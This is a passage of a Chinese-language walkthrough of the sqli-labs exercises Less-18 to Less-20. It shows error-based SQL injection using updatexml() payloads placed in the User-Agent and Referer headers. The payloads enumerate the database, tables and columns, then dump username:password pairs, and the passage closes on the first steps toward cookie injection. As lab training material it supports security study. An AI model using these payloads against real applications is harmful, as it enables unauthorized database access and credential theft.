 而对用户名和密码处都没有出现报错，所以注入点应该在User Agent,bp抓包改。

推断uname 和 passwd 字段都进行了强效的过滤，我们注入正确的 uname 和 passwd 之后再注入。此时发现当注入单引号闭合时，网页返回报错信息。

User Agent：`'`

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250417202601802.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250417202601802.png)

注入 2 个连续的单引号，发现闭合成功，由此可见 2 个单引号分别闭合了 2 侧的单引号。

在注入的两个单引号之间可以插入其他 Sql 语句， updatexml() 报错注入语句。注意使用单引号闭合两侧的 Sql 语句时，相当于把它分割成了 2 部分，插入 updatexml() 报错时要用 OR 进行连接。

```
' OR updatexml(1,concat("!",database()),2) OR ' 
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250417203045265.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250417203045265.png)

表名：' OR updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2) OR '

字段名： ' OR updatexml(1,concat("!",(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'users')),2) OR '

字段内容：' OR (updatexml(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)),1)) OR '

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250417203222779.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250417203222779.png)

## Less-19

当输入正确的用户名和密码后，返回：

`Your IP ADDRESS is: 10.244.166.11 Your Referer is: http://e6eb7525-01ea-457a-b00c-6fffbc2de320.node5.buuoj.cn/Less-19/`

**Referer**是 HTTP 头的一个字段，用于告诉服务器该网页是从哪个页面链接过来的。

数据库名：Referer: ' OR updatexml(1,concat("!",database()),2) OR '

表名：Referer: ' OR updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2) OR '

字段名：Referer: ' OR updatexml(1,concat("!",(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'users')),2) OR '

字段内容：Referer: ' OR (updatexml(1,concat('!',(SELECT concat_ws(':',username,password) FROM (SELECT username,password FROM users)text LIMIT 0,1)),1)) OR '

## Less-20

**cookie**是网站为了辨别用户身份，进行 Session 跟踪而储存在用户本地终端上的数据。想要回到登录页面，我们需要先把 cookie 清除掉。

首先输入正确的账户和密码测试，用bp抓包，抓到之后放行POST再抓GET，此时GET中会有cookie信息

此时就可以在cookie处进行测试注入
